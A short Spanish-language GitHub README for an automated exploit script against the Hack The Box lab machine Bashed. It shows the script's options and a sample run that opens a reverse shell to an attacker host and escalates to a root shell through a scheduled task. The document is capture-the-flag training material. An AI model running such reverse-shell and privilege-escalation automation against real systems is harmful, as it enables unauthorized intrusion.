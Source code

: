 # Bashed-Autopwn
Script en python autopwn para la máquina Bashed de Hack The Box

## Uso
```bash
❯ python3 Bashed_autopwn.py -h
usage: Bashed_autopwn.py [-h] [--rhost RHOST] --lhost LHOST [--lport LPORT]

Bashed Machine Hack The Box AutoPwn

optional arguments:
  -h, --help     show this help message and exit
  --rhost RHOST  Remote host ip (default: 10.10.10.68)
  --lhost LHOST  Local host ip (Attacker)
  --lport LPORT  Local port (default: 443)
```

```bash
❯ python3 Bashed_autopwn.py --lhost 10.10.14.27
[+] Reverse shell: Consulta enviada
[+] Estado de Conexión: Conexión generada exitosamente
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.68 on port 57556
[+] Escalada de privilegios: Accediendo como root
[*] Switching to interactive mode
/bin/sh: 0: can't access tty; job control turned off
$ $ whoami
root
$ 
```

Debido a que se ejecuta una tarea a intervalos regulares, el script tarda un minuto para escalar privilegios como el usuario **root**.
